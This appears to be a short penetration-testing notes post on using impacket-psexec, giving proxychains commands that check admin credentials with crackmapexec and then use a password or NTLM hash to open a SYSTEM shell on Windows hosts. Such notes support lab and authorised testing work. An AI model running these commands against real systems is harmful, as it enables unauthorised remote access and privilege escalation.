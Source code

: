 ```yaml
---
layout: post
title: Windows impacket-psexec
titledate: 10/17/23
tags: ["infosec","offsec", "privesc", "psexec", "impacket"]
---
```


#### admin

if we have verified an admin user say with crackmapexec

    proxychains crackmapexec smb 172....11 -u admin -p 'password123!' -d domain --shares

then we can leverage psexec to drop us into a NT/SYSTEM shell

    proxychains impacket-psexec admin:'password123!'@172....11

or

    └─$ proxychains impacket-psexec admin@10.10.86.152 -hashes :4979d69d4ca66955c075c41cf45f24dc

from here we can leverage our rdp pivot post